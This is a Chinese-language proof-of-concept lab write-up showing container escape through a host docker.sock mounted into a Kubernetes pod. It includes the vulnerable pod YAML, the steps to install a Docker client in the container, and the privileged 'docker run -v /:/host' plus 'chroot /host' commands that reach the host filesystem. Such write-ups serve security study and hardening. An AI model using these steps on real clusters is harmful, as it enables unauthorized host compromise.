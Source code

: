 # 挂载 docker.sock 导致容器逃逸

## 漏洞描述

Docker Socket 是 Docker 守护进程监听的 Unix 域套接字，用来与守护进程通信——查询信息或下发命令。如果在攻击者可控的容器内挂载了该套接字文件（/var/run/docker.sock），可通过 Docker Socket 与 Docker 守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部，完成简单逃逸。

参考链接：

- https://mp.weixin.qq.com/s/_GwGS0cVRmuWEetwMesauQ

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f mount-docker-sock.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `mount-docker-sock` 的 pod，宿主机的 `/var/run/docker.sock` 被挂载在容器内部：

```
kubectl get pods -n metarget
-----
NAME                READY   STATUS    RESTARTS   AGE
mount-docker-sock   1/1     Running   0          13s
```

![](images/挂载%20docker.sock%20导致容器逃逸/image-20250519172523152.png)

## 漏洞复现

通过以下两个步骤来完成简单逃逸：

1. 在容器内安装 Docker 命令行客户端
2. 使用容器内的客户端通过 Docker socket 与 Docker 守护进程通信，发送命令创建并运行一个挂载宿主机根目录的容器，实现基本逃逸。

执行以下命令进入容器:

```shell
kubectl exec -n metarget -it mount-docker-sock -- bash
```

在容器内安装 Docker 命令行客户端:

```
# 先将源替换为中科大源
sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
apt update && apt install -y wget

# 然后下载编译好的 docker 客户端
wget https://download.docker.com/linux/static/stable/x86_64/docker-17.03.0-ce.tgz
tar xf ./docker-17.03.0-ce.tgz
```

成功安装 Docker 客户端:

```
root@mount-docker-sock:/# cd docker
root@mount-docker-sock:/docker# ls
docker  docker-containerd  docker-containerd-ctr  docker-containerd-shim  docker-init  docker-proxy  docker-runc  dockerd
```

![](images/挂载%20docker.sock%20导致容器逃逸/image-20250519173026494.png)

执行 docker 命令 `docker ps`，结果和宿主机相同，证实 docker.sock 挂载成功：

```
root@mount-docker-sock:/docker# ./docker ps
CONTAINER ID        IMAGE                        COMMAND                  CREATED             STATUS              PORTS               NAMES
abf602bae267        602eb6fb314b                 "/bin/bash -c -- '..."   8 minutes ago       Up 8 minutes                            k8s_ubuntu_mount-docker-sock_metarget_75b4ad1b-0193-4008-b559-4dbd7d92cc3f_0
b347f319bf8b        registry.k8s.io/pause:3.10   "/pause"                 8 minutes ago       Up 8 minutes                            k8s_POD_mount-docker-sock_metarget_75b4ad1b-0193-4008-b559-4dbd7d92cc3f_0
...
```

![](images/挂载%20docker.sock%20导致容器逃逸/image-20250519173128232.png)

启动一个挂载宿主机根目录的特权容器，完成简单逃逸：

```
kubectl exec -n metarget -it mount-docker-sock -- bash
root@mount-docker-sock:/# cd docker
root@mount-docker-sock:/docker# ./docker run -it -v /:/host --privileged --name=sock-test ubuntu /bin/bash
root@5b61ce1ed2ce:/# chroot /host
# cat /etc/hostname
minikube
```

![](images/挂载%20docker.sock%20导致容器逃逸/image-20250519180629556.png)

> 由于我们是在 minikube 上运行 kubernetes，这里逃逸到的是 minikube 虚拟机。

## 环境复原

```
kubectl delete -f mount-docker-sock.yaml
kubectl delete -f k8s_node_proxy.yaml
```

## YAML

[mount-docker-sock.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/mounts/pods/mount-docker-sock.yaml)

```
apiVersion: v1
kind: Pod
metadata:
  name: mount-docker-sock
  namespace: metarget
spec:
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - name: docker-sock
      mountPath: /var/run/docker.sock
  volumes:
    - name: docker-sock
      hostPath:
        path: /var/run/docker.sock
```
